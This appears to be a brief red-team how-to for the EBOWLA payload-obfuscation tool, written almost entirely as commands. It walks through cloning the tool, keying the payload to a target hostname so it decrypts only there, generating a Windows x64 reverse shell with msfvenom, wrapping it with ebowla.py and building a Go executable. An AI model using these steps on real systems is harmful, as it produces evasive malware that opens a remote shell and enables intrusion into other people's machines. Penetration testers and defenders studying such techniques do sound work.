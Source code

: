 # EBOWLA usage

### Get EBOWLA

git clone https://github.com/Genetic-Malware/Ebowla
cd Ebowla

### edit generic.config:

change output_type = GO
change payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

Make, as an example, a reverse shell payload with metersploit: 

msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe

python2 ebowla.py shell.exe genetic.config

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished executable can be found in the output folder.
